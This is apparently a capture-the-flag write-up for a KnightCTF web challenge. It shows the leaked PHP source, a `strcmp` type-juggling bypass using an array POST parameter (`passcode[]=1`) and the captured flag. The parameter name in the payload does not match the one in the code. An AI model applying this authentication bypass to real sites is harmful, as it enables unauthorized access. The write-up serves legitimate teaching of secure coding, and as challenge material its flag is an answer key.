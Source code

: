 # Kinght CTF - Find Pass Code - 1

View source-code, we found a comment:
```
Hi Serafin, I learned something new today. 
I build this website for you to verify our KnightCTF 2022 pass code. You can view the source code by sending the source param
```
Ok, let's try that:  `http://159.223.166.39:9000/?source=`

We got backend source-code:
```php
<?php
require "flag.php";
if (isset($_POST["pass_code"])) {
    if (strcmp($_POST["pass_code"], $flag) == 0) {
        echo "KCTF Flag : {$flag}";
    } else {
        echo "Oh....My....God. You entered the wrong pass code.<br>";
    }
}
if (isset($_GET["source"])) {
    print show_source(__FILE__);
}

?>
```
PHP `strcmp()` function, typical huh!
This function return 0 when 2 string compare equal(case-sensitive) but this function is really easy to bypass, if argument is an array instead of a string, strcmp() will return and error/false which equal to 0.

**payload**: In POST requests we edit the `passcode` parameter to: `passcode[]=1`

**Result**:
*Warning*: strcmp() expects parameter 1 to be string, array given in /var/www/html/index.php on line 4

**KCTF Flag** : `KCTF{ShOuLd_We_UsE_sTrCmP_lIkE_tHaT}`
